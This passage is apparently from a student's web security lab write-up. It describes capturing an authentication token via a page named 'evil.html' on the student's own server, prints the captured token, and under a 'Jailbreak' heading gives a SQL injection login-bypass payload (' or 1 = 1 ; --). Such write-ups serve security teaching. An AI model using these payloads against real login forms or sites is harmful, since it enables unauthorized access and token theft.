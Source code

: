 Put the url of this web page to the input box: `https://homes.cs.washington.edu/~zetiac/evil.html`.

Go back and check out our server, and we found the authentication token:

```
authenticated=1f715b44d977c9822ceee4e32df871099749b730
```

Done!

## Jailbreak

### Prolbem 1

![Jailbreak 1](jail-1.png)

This is really an easy one.

Choose whatever you want for username and make password to be always true.

```
Username: admin
Password: ' or 1 = 1 ; -- 
```

### Prolem 2

![Jailbreak 2](jail-2-1.png)

New names are going to be inserted to the table. That's all.
